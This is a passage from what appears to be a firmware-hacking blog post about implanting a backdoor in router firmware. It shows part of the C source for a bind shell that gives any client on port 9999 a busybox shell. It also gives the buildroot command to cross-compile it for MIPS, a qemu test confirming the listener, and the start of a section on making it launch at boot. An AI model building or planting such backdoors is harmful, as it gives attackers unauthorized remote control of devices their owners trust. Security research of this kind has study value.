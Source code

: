     while (1) {
    	len = sizeof(struct sockaddr);
    	clientfd = accept(serverfd, (struct sockaddr *)&client, &len);
        server_pid = fork();
        if (server_pid) {
        	write(clientfd, banner,  strlen(banner));
	        for(; i <3 /*u*/; i++) dup2(clientfd, i);
	        execve("/bin/busybox", args, (char *) 0);
	        close(clientfd);
    	} close(clientfd);
    } return 0;
}

{% endhighlight %}

This bindshell binds to port 9999 and waits for a connection.

The next task is compiling the backdoor for a MIPS little endian
architecture. We can do this using
[buildroot](https://buildroot.uclibc.org/). After copying the
bindshell into buildroot we statically compile with gcc using:

	./mipsel-buildroot-linux-uclibc-gcc bindshell.c -static -o bindshell

And then test the bindshell using qemu for the correct architecture:

    sudo chroot . ./qemu-mipsel-static bindshell

	oit@ubuntu:~/tools/fat$ netstat -antp
	(Not all processes could be identified, non-owned process info
	 will not be shown, you would have to be root to see it all.)
	Active Internet connections (servers and established) 
	Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
	tcp        0      0 0.0.0.0:139             0.0.0.0:*               LISTEN      -
	tcp        0      0 0.0.0.0:9999            0.0.0.0:*               LISTEN      -
	tcp        0      0 127.0.1.1:53            0.0.0.0:*               LISTEN      -
	tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -    
	tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      -
	tcp        0      0 127.0.0.1:5432          0.0.0.0:*               LISTEN      -
	tcp        0      0 0.0.0.0:445             0.0.0.0:*               LISTEN      -
	tcp6       0      0 :::139                  :::*                    LISTEN      -
	tcp6       0      0 :::22                   :::*                    LISTEN      -
	tcp6       0      0 :::445                  :::*                    LISTEN      -


	Connection to 127.0.0.1 9999 port [tcp/*] succeeded!
	[~] Welcome to @OsandaMalith's Bind Shell

So the firmware seems to run properly... Now how to integrate so it
starts up when the router boots?


## Integrating The Backdoor

Integrating the backdoor turned out to be more difficult than the
previous firmware analysis. This firmware did not have an `etc/init.d`
directory of scripts. I performed a bunch of trial and error of
integrating the bindshell into various scripts that seemed like they
would be called during the boot process based upon their content but
after re-building the firmware and testing, they didn't end up
working. What ended up working was looking at the log output of
Firmadyne. In the logs I found:
